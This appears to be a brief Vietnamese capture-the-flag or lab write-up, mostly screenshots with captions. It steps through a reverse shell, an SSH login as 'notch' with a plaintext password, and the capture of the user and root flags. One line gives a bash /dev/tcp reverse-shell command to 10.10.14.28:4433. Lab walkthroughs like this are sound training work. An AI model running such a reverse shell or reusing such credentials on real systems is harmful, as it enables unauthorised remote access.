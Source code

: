 ![https://lh7-us.googleusercontent.com/DpT7f1Ja-YLBowEaaN-2_YG7_w6dl6J_pZgLAy1ey-AwW6hX_xa69hsJ2uqokNCb0kKy1POSK5QsnP0rNmZoutuDhy5Vu2micRzOR1ml7cSaVIdcW5oeNsqZ8oXNohjcNch_tbmNFGep](https://lh7-us.googleusercontent.com/DpT7f1Ja-YLBowEaaN-2_YG7_w6dl6J_pZgLAy1ey-AwW6hX_xa69hsJ2uqokNCb0kKy1POSK5QsnP0rNmZoutuDhy5Vu2micRzOR1ml7cSaVIdcW5oeNsqZ8oXNohjcNch_tbmNFGep)

![https://lh7-us.googleusercontent.com/y8bxqoFaim74ah8kEnRTy4YD66sb9XlB8DZ-VcFnv1mLLFk_mzvQVmejztYdY4bicYhhd22jk8oEOG-P836b_WWDR666_pSsrbf4NaHNufgmDEADsUB_cOUIyvVkmir2OV6s_ZlNpgWa](https://lh7-us.googleusercontent.com/y8bxqoFaim74ah8kEnRTy4YD66sb9XlB8DZ-VcFnv1mLLFk_mzvQVmejztYdY4bicYhhd22jk8oEOG-P836b_WWDR666_pSsrbf4NaHNufgmDEADsUB_cOUIyvVkmir2OV6s_ZlNpgWa)

reverse shell

bash -c "bash -i >& /dev/tcp/10.10.14.28/4433 0>&1" -> encode url

![https://lh7-us.googleusercontent.com/VTTLpeJgvpEvtMwNhUnALB39DNdn_O4n5Ko-RDFrYeQd3NSVG5YXhgSr1eqkXH-CMh4cwutoSwcHzIykiOlcsPvFmynY9h3gRHB_UKh6sSOyowZnEr_Xn267uIhSn6keLj7AlP0SmHxk](https://lh7-us.googleusercontent.com/VTTLpeJgvpEvtMwNhUnALB39DNdn_O4n5Ko-RDFrYeQd3NSVG5YXhgSr1eqkXH-CMh4cwutoSwcHzIykiOlcsPvFmynY9h3gRHB_UKh6sSOyowZnEr_Xn267uIhSn6keLj7AlP0SmHxk)

![https://lh7-us.googleusercontent.com/ptmU_qKEEtK1BR9szHVTSjTwgcL5ZcIOpBgGyDG3jnYM7_MOQiLyDimxWHNzUePX0jaqiY0BH8YZ7FxFa4TeFoFb-8AsA7V9dJBwSNnrm1NUK6lf5lxfcxIvPcqLjhdxezB0HjnKGGHa](https://lh7-us.googleusercontent.com/ptmU_qKEEtK1BR9szHVTSjTwgcL5ZcIOpBgGyDG3jnYM7_MOQiLyDimxWHNzUePX0jaqiY0BH8YZ7FxFa4TeFoFb-8AsA7V9dJBwSNnrm1NUK6lf5lxfcxIvPcqLjhdxezB0HjnKGGHa)

ssh notch với pw 8YsqfCTnvxAUeduzjNSXe22

![https://lh7-us.googleusercontent.com/TjqzRxMF8JKL6Mk7MdSvNuRAnCvmNth6yIHhi30s8tJ3U7YwCMgJwOgllWQ3rbbJPcHyWX76XYpdBb5MRFz-VbNR6HZhhnUxLImXQCJNRIY3Y8nNhOVd8zBK-RIw8crdLgAM9fN3Gjkv](https://lh7-us.googleusercontent.com/TjqzRxMF8JKL6Mk7MdSvNuRAnCvmNth6yIHhi30s8tJ3U7YwCMgJwOgllWQ3rbbJPcHyWX76XYpdBb5MRFz-VbNR6HZhhnUxLImXQCJNRIY3Y8nNhOVd8zBK-RIw8crdLgAM9fN3Gjkv)

lấy flag user

![https://lh7-us.googleusercontent.com/XJSuSGoMN-dNAeqasUcGBNZ3hy7lCdiA5jZ5d7_9cAmHS-_QA9-Ox6X1OiN-P95sLRTh0a5eSoIv_MkuKSFFxU4FC6mkU5_3ICFGF6N2DqUeNdrAIpVApWTynds9dLsjl2YKfQZUN03e](https://lh7-us.googleusercontent.com/XJSuSGoMN-dNAeqasUcGBNZ3hy7lCdiA5jZ5d7_9cAmHS-_QA9-Ox6X1OiN-P95sLRTh0a5eSoIv_MkuKSFFxU4FC6mkU5_3ICFGF6N2DqUeNdrAIpVApWTynds9dLsjl2YKfQZUN03e)

kiểm tra quyền

![https://lh7-us.googleusercontent.com/VBAck9EBYof1u_XtGz83K8E4l5zAuiVSr4EgSk62Vtd5Nwtn2SwPCQWgl3l1R0RMEAIvaIaWT9Mg0WsB9Y6jxvlxcwzO5qpPkTgti3tdaF94FvpM3GXAG1edoyKQvJhCaE0l7EUhKoTl](https://lh7-us.googleusercontent.com/VBAck9EBYof1u_XtGz83K8E4l5zAuiVSr4EgSk62Vtd5Nwtn2SwPCQWgl3l1R0RMEAIvaIaWT9Mg0WsB9Y6jxvlxcwzO5qpPkTgti3tdaF94FvpM3GXAG1edoyKQvJhCaE0l7EUhKoTl)

lấy flag root

![https://lh7-us.googleusercontent.com/laZWnKUihdfczVCVNH-LyucsV5AOvrwaQcG1nYF9Q2cUAgXi44tZAaAo9y-ZHtAj6zfX5h0Ab8qXcNkR0-m7vZsv42-_KGIIGdm4XPQ9yhjbB8WBvb93h2DnxZbMIaaImrFUqNG80tcU](https://lh7-us.googleusercontent.com/laZWnKUihdfczVCVNH-LyucsV5AOvrwaQcG1nYF9Q2cUAgXi44tZAaAo9y-ZHtAj6zfX5h0Ab8qXcNkR0-m7vZsv42-_KGIIGdm4XPQ9yhjbB8WBvb93h2DnxZbMIaaImrFUqNG80tcU)